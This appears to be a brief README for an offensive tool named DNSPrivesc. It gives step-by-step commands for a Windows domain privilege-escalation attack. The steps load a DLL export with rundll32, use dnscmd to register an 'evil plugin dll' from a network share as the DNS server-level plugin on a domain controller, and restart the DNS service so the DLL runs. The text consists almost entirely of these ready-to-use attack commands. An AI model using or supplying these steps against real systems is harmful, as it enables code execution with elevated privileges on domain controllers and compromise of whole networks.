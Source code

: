 # DNSPrivesc

## Using the DLL

Build and test
```
rundll32.exe .\DNSPrivesc.dll,DnsPluginInitialize
```
Upload evil plugin dll
```
dnscmd dc01.corp.local /config /serverlevelplugindll \\fileshare\dnsprivesc.dll
```
Restart DNS service to apply the evil DLL
```
sc stop dns
sc start dns
```
